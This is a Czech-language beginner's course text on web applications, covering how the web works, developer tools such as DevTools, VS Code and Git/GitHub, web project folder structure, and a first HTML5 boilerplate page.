# Webové aplikace
## 1 Jak funguje web
- Web dnes vnímáme jako samozřejmost – zadáme adresu, stránka se objeví a můžeme ji používat. Abychom však dokázali webové aplikace efektivně vytvářet a optimalizovat, je důležité pochopit, co se děje „v zákulisí“. Celý proces funguje jako spolupráce několika vrstev technologií, které společně zajistí, že se obsah uložený na vzdáleném serveru promění ve stránku, kterou vidíme v prohlížeči.
- Webový prohlížeč, server a síťová komunikace tvoří základní stavební kameny každé webové aplikace. Prohlížeč interpretuje kód, server poskytuje data a síť zajišťuje přenos informací mezi nimi. Znalost jejich role a vzájemných interakcí je klíčová pro každého vývojáře.
---
### 1.1 Co je webová stránka a jak vzniká
- Webová stránka je dokument napsaný primárně pomocí HTML, který popisuje strukturu obsahu. Na tento základ se aplikuje CSS, které definuje vzhled, a JavaScript, který řídí interaktivitu a logiku na straně uživatele.
- Prohlížeč načte soubory HTML, CSS a JS, postupně je interpretuje a vytvoří z nich vizuální podobu stránky. Tento proces zahrnuje vytvoření tzv. Document Object Modelu (DOM), což je stromová reprezentace HTML dokumentu, a následné vykreslení výsledku na obrazovku.
- _Jednoduše řečeno: HTML říká „co tam je“, CSS říká „jak to vypadá“ a JavaScript říká „co se má stát“._
---
### 1.2 URL, domény a DNS
- Aby uživatel mohl stránku navštívit, musí znát její adresu. K tomu slouží URL (Uniform Resource Locator), které funguje podobně jako adresa domu – přesně popisuje, kde se daný obsah nachází.
- Doména (např. **google.com**) je uživatelsky přívětivá alternativa k číselné IP adrese (Google IPv4 `142.251.38.142`) serveru. Překlad domény na IP adresu zajišťuje DNS (Domain Name System). Když uživatel zadá adresu do prohlížeče, ten se nejprve dotáže DNS serveru, který mu sdělí, kde web fyzicky leží.
- 
- **Struktura URL:** - `https://` (protokol)
	- `www.google.com` (doména/host)
	- `/vyhledavani` (cesta)
	- `?q=dotaz` (query parametry) To se hodí později pro pochopení REST API a routování.
- Detailněji toto téma bude vysvětleno později.
---
### 1.3 Hosting a nasazení
- Webová stránka musí někde fyzicky být uložená, aby ji mohli uživatelé navštívit. Hosting představuje službu, která nabízí prostor na serveru a připojení k internetu. Pro jednoduché statické stránky mohou být použity služby jako Netlify, Vercel nebo GitHub Pages.
	- Webovou stránku **můžeme** hostovat i na obyčejném laptopu či raspberry pi!
- Komplexnější aplikace vyžadují serverový backend, databázi a někdy i více propojených služeb. Proces, kdy vývojář publikuje svou aplikaci na internet, se nazývá nasazení (deployment).
- Detailněji toto téma bude vysvětleno později.
---
### 1.4 Client vs Server
- Webová architektura se většinou dělí na část klientskou (frontend) a serverovou (backend).
- **Klient** je uživatelův prohlížeč – zobrazuje obsah, provádí JavaScript a většinu interakcí.  
- **Server** je vzdálený počítač, který zpracovává požadavky, poskytuje data, generuje odpovědi a často komunikuje s databází.
- Frontend a backend spolu komunikují pomocí protokolů a struktur dat, nejčastěji pomocí HTTP a JSON.
- 
- Detailněji toto téma bude vysvětleno později.
---
### 1.5 Request a Response
- Komunikace mezi klientem a serverem probíhá na principu požadavků (request) a odpovědí (response). (můžeme vidět už na obrázku výše)
	- Klient odešle request – například „chci stránku /produkty“.
	- Server request zpracuje a vrátí response – HTML dokument, JSON data nebo chybu, pokud není požadavek platný.
- Pochopení tohoto cyklu je klíčové pro jakýkoli webový vývoj, protože většina aplikací neustále komunikuje se serverem.
- Detailněji toto téma bude vysvětleno později.
---
### 1.6 Cookies, Session, LocalStorage
- Webové aplikace často potřebují uchovávat informace o uživateli – například, zda je přihlášen. K tomu slouží různé metody:
	- **Cookies** - Malé textové soubory uložené v prohlížeči, často používané pro autentizaci.
	- **Session (relace)** - Informace uložené na serveru, propojené s uživatelem pomocí cookie se session ID.
	- **LocalStorage** - Trvalé lokální úložiště v prohlížeči, vhodné pro ukládání uživatelských preferencí nebo stavů aplikace.
- Každý způsob má své výhody a ideální použití, které vývojář musí znát.
- Detailněji toto téma bude vysvětleno později.
---
## 2 Nástroje vývojáře webu
- Moderní webový vývoj se neopírá pouze o znalost HTML, CSS a JavaScriptu. Stejně důležitá je i orientace v nástrojích, které vývoj umožňují, zrychlují a zpříjemňují. Tato kapitola představuje základní vybavení každého webového vývojáře – od prohlížečů a jejich ladicích funkcí až po editor kódu, verzovací systémy a strukturu projektu.
- Cílem není jen ukázat jednotlivé nástroje, ale také vysvětlit jejich roli v běžném pracovním procesu, abyste rozuměli nejen tomu _co_ použít, ale i _proč_.
---
### 2.1 Moderní prohlížeče a DevTools
- Ať už vytváříme jednoduchou stránku nebo komplexní aplikaci, prvním a nejdůležitějším nástrojem je webový prohlížeč. Každý moderní prohlížeč – Google Chrome, Firefox, Safari nebo Edge – obsahuje zabudovanou sadu vývojářských nástrojů známou jako **DevTools**.
- DevTools umožňují:
	- prozkoumat HTML strukturu (DOM),
	- upravovat CSS v reálném čase,
	- sledovat síťové požadavky (Network tab),
	- odhalovat chyby v JavaScriptu pomocí debuggeru,
	- měřit výkon aplikace (Performance tab),
	- testovat různé velikosti obrazovky.
- Vývojář tak může rychle iterovat, odstraňovat chyby a optimalizovat chování aplikace. Znalost DevTools patří mezi základní dovednosti, které se vyplatí osvojit už na začátku.
- Do DevTools se **dostaneme** pomocí stisku klávesy `F12` a zobrazí se nám vpravo sloupec, jak **můžeme** vidět na obrázku níže.
- 
- Zde si **můžeme** povšimnout HTML kódu stránky, CSS nastavení jednotlivých HTML prvků a konzoli pro Javascript. 
- Pomocí kláves `Ctrl + Shift + C` **můžeme** na stránce vybrat jakýkoliv prvek k inspekci v HTML kódu.
- Pomocí kláves `Ctrl + Shift + M` se **přepneme** do módu, kde **můžeme** sledovat, jak stránka mění vzhled, při jaké velikosti **máme** okno otevřené, či na jakém zařízení stránku navštěvujeme.
	- Toto je obzvláště využíváno při stylování stránky pro telefony, tablety a počítače.
---
### 2.2 VS Code a rozšíření
- Visual Studio Code (VS Code) se stal de facto standardem pro webový vývoj. Je lehký, přizpůsobitelný a podporuje stovky jazyků a frameworků prostřednictvím rozšíření.
- Mezi nejčastěji používané pluginy patří:
	- **ESLint** – kontrola kvality a konzistence JavaScript kódu
	- **Prettier** – formátování kódu
	- **Live Server** – automatické obnovování stránky při změně v souborech
	- **GitLens** – detailní informace o commitech a změnách v projektu
	- **Auto Rename Tag / IntelliSense** – usnadnění práce s HTML a JS
>[!NOTE]
> Pokud do Visual Studio Code nedoinstalujeme pluginy, nebude **nám** nic z výše zmíněného fungovat. Visual Studio Code je v základu pouze textový editor! 
- VS Code navíc nabízí integrovaný terminál, možnost debugování a téměř neomezenou možnost přizpůsobení, což z něj **činí** ideální editor pro začátečníky i profesionály.
- 
- Jako alternativy zde máme
	- JetBrains WebStorm
		- Webstorm je velmi populární IDE pro webové vývojáře, které je kompatibilní s Windows, Mac a Linux. Podporuje jazyky jako HTML, JavaScript, Node.js, Angular, TypeScript, CSS, React a další. Je to nejchytřejší JavaScript IDE, díky čemuž vyniká jako nejlepší pro webový vývoj. Má také vynikající funkce pro dokončování kódu a refaktoring pro populárních frameworků. Detekuje chyby a překlepy v kódu pomocí funkce analýzy kvality kódu. Je možné integrovat WebStorm s lintery jako Stylelint a ESLint. Má také vestavěného HTTP klienta v editoru pro úpravy, vytváření a spouštění HTTP požadavků. 
		- Zde jsou některé z funkcí WebStormu:
			- Masivní podpora pluginů
			- Správná navigace
			- Vestavěný debugger
			- Výkonný a přizpůsobitelný
			- Automatické doplňování kódu a nejlepší kompilace kódu
		- 
---
### 2.3 Git a GitHub
- Git je **distribuovaný verzovací systém**, který umožňuje sledovat historii projektu, bezpečně experimentovat, pracovat v týmu a kdykoliv se vracet ke starším verzím.  
- GitHub je pak **online služba**, která poskytuje vzdálené úložiště pro Git projekty, usnadňuje spolupráci, správu úkolů, code review a často i nasazování aplikací.
---
#### 2.3.1 Proč Git existuje
- Představte si, že **vyvíjíme** web a potřebujeme:
	- **uložit si** bezpečně práci,
	- **porovnat**, co se změnilo,
	- **vrátit se** ke starší verzi (třeba když se něco rozbije),
	- **pracovat** na nové funkci, aniž bychom rozbili stávající kód,
	- **spolupracovat** s dalšími vývojáři a řešit konflikty elegantně,
	- mít projekt uložený nejen na počítači, ale i online a stále dostupný.
- Na to všechno je Git.
---
#### 2.3.2 GitHub a jeho role
- GitHub není Git – je to **platforma**, která:
	- hostuje repozitáře,
	- umožňuje přispívat do cizích projektů,
	- umožňuje schvalování změn (pull requesty),
	- poskytuje nástroje pro dokumentaci (README, Wiki),
	- nabízí automatizace (GitHub Actions),
	- funguje i jako portfolio vývojáře — zaměstnavatelé to milují.
---
#### 2.3.3 Základní koncepty a operace
##### 2.3.3.1 Repository (repozitář)
- „Projektová složka“ rozšířená o historii, větve a metadata.  
- Může být lokální (u **nás**) nebo vzdálená (např. GitHub).
- 
---
##### 2.3.3.2 Commit – uložení změn
- Commit je **základní jednotka historie**. Každý commit:
	- reprezentuje konkrétní změnu kódu,
	- má autora, čas a zprávu (message),
	- vytváří pomyslný „save point“.
- **Příklad zprávy:** - `feat: přidána sekce s kontaktním formulářem`
- 
---
#### 2.3.4 Branch – větev pro vývoj
- Větve umožňují **pracovat** na nové funkci, opravě nebo experimentu **bez narušení hlavního kódu**.
- Běžná praxe:
	- `main` / `master` → stabilní, nasazovaná větev,
	- `dev` → vývojová větev,
	- feature větve → např. `feature/login-page`.
- Ukázku větví **uvidíte** níže společně s Merge / pull requesty
---
#### 2.3.5 Merge / Pull Request – začlenění změn
- Když **dokončíme** práci na větvi, **chceme** ji dostat do hlavní větve.
	- **Merge provedeme** ručně nebo automaticky.
	- **Pull request (PR)** je GitHub metoda: slouží k review kódu, debatě a schválení změn, než se sloučí.
- PR je základ týmové kultury.
- Merge větví následně vypadá takto:
- 
	- Může se stát, že nastane konflikt.
	- Konflikty vznikají, když se ve více větví pracuje na jednom souboru, a git neví, které změny má při merge větví uložit.
	- Konflikt se buď vyřeší automaticky, nebo se **musíme** rozhodnout kterou část změny, **chceme** přidat, či nepřidat.  
- Zde **můžeme** vidět jak vypadá pull request na Githubu.
- 
---
#### 2.3.6 Clone / Pull / Push – práce s remote verzemi
- **clone** – **stáhne** celý projekt k **sobě**,
- **fetch** - **zjistí** si zda nebyly na repozitáři změny,
- **pull** – **stáhne** popřípadě nové změny od ostatních,
- **push** – **nahraje Vaše** změny na GitHub.
Tento cyklus se používá neustále.
---
#### 2.3.7 Git v praxi – proč je nezbytný
- Umožňuje **vrátit** nechtěné změny.
- Zabraňuje tomu, aby se vývojáři **přepisovali navzájem**.
- Umožňuje **paralelní** vývoj více funkcí.
- V každé firmě je Git **standard** — bez něj se dnes vývojář neobejde.
- Pomáhá držet projekt čistý, přehledný a profesionální.
- Skutečná síla Gitu je v tom, že:
	- _nikdy o nic **nepřijdeme**,_
	- _**můžeme** pracovat **kdykoli a kdekoli**,_
	- _pokud něco **rozbijeme**, vždy **máme** únikovou cestu._
---
#### 2.3.8 Github desktop
- Pokud nejste zaběhlí v cmd, konzoli či terminálu nebo **Vám** nepřijde intuitivní, existuje aplikace Github desktop.
- V této aplikaci **dokážeme** skoro vše, co **potřebujeme**, a to v GUI (grafickém rozhraní).
- 
---
## 3 Struktura webového projektu
- Přehledná struktura projektu je základní předpoklad úspěšného vývoje. I malé projekty se mohou rychle stát nečitelnými, pokud se soubory organizují nahodile. Každý projekt může mít jiné rozvržení, avšak by správně měl dodržovat nějakou logiku!
---
### 3.1 Kořenová složka
- Obsahuje konfiguraci projektu a základní metadata.
- Typické soubory:
    - `package.json` – definice závislostí a skriptů pro npm/yarn,
    - `README.md` – dokumentace projektu, instrukce k nasazení,
    - `.gitignore` – seznam souborů, které Git ignoruje,
    - `.env` – environmentální proměnné (např. API klíče),
    - `vite.config.js` / `webpack.config.js` – konfigurace build nástroje.
---
### 3.2 Public / Static
- Statické soubory dostupné přímo z URL.
- Typicky obsahuje:
    - `index.html` – hlavní HTML stránku,
    - favicon, obrázky, ikony,
    - statické soubory CSS/JS, které se nemění během build procesu.
---
#### 3.2.1 Src – zdrojový kód
- Hlavní složka pro **aplikaci samotnou**.
- Podrobný přehled:
---
##### 3.2.1.1 Components / Widgets
- Opakovaně použitelné UI prvky (buttony, karty, formuláře).
- Příklad doporučený struktury:
```ls
src/components/Button/
  Button.jsx
  Button.css
  Button.test.js
```
- Oddělení logiky a stylů (CSS Modules / Styled Components) zvyšuje modularitu.
---
##### 3.2.1.2 Pages / Views
- Reprezentují jednotlivé stránky nebo obrazovky SPA.
- Například: `Home.jsx`, `Dashboard.jsx`, `Login.jsx`.
---
##### 3.2.1.3 Assets
- Grafika, fonty, ikonky, videa.
- Organizace složek podle typu (`images/`, `fonts/`, `icons/`) pomáhá udržet pořádek.
---
##### 3.2.1.4 Styles / Themes
- Globální CSS/SCSS nebo Tailwind konfigurace.
- Případně motivy pro dark/light mode.
---
##### 3.2.1.5 Services / API
- Funkce pro komunikaci s backendem.
- Např. `authService.js` (login/logout), `api.js` (fetch dat), `graphql.js` (GraphQL klient).
---
##### 3.2.1.6 Hooks / Utils
- Vlastní hooky (React) a utility funkce.
- Například `useFetch.js`, `formatDate.js`.
--- 
##### 3.2.1.7 State / Store
- Správa stavu aplikace (Redux, Zustand, Context API).
- Složka by měla obsahovat:
    - store,
    - slice/reducer,
    - akce (actions).
##### 3.2.1.8 Config
- Konfigurace API endpointů, environmentální nastavení.
---
### 3.3 Test / tests
- Jednotkové a integrační testy.
- Struktura by měla odpovídat struktuře src, aby bylo jasné, co se testuje.
---
### 3.4 Build / Dist
- Výstupní složka po buildu.
- Obsahuje optimalizované HTML/CSS/JS soubory připravené k nasazení.
- Není verzována do Git (je zapsaná v `.gitignore`).
---
### 3.5 Doporučené postupy
- **Modularita:** Každá složka má jasnou zodpovědnost.
- **Consistency:** Stejný vzor složek a názvů napříč projekty.
- **Environmentální proměnné:** Nikdy nepište citlivé údaje přímo do kódu.
- **Oddělení logiky a UI:** Lepší testovatelnost a údržba.
- Dobře navržená struktura šetří čas, usnadňuje orientaci novým členům týmu a předchází chaosu v kódu.
---
## 4 Frontend – cesta od jednoduché stránky k aplikaci
### 4.1 HTML – základ kostry webu
- Vstupujeme do praktické části věnované frontendu. Základním stavebním kamenem každé webové stránky je **HTML** (**H**yper**T**ext **M**arkup **L**anguage).
- Pokud chápeme webovou aplikaci jako celek, HTML definuje její **strukturu a obsah**. Je to kostra, která drží vše pohromadě.
	* **HTML** (Struktura): Definuje, z jakých prvků se stránka skládá (nadpisy, odstavce, obrázky, formuláře).
	* **CSS** (Prezentace): Popisuje, jak tyto prvky vizuálně vypadají (barvy, písma, rozložení).
	* **JavaScript** (Chování): Řídí interaktivitu a dynamické chování aplikace.
- Je důležité pochopit, že HTML není programovací jazyk. Je to **značkovací jazyk** (markup language). Pomocí definovaných značek (angl. **tags**) popisujeme jednotlivé části dokumentu – **elementy**. Prohlížeč následně tento dokument analyzuje, vytvoří z něj stromovou strukturu (DOM - Document Object Model) a vykreslí ji uživateli.
---
#### 4.1.1 První stránka
- Každý HTML dokument má základní, standardizovanou strukturu, která zajišťuje jeho správnou interpretaci prohlížečem. Následující kód představuje minimální kostru (boilerplate) validní HTML5 stránky.
- Uložme tento kód do souboru s názvem `index.html`:
```html
<!DOCTYPE html>
<html lang="cs">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Titulek stránky</title>
</head>
<body>
    <h1>Můj hlavní nadpis</h1>
    <p>Toto je první odstavec textu na mé webové stránce.</p>
</body>
</html>
```
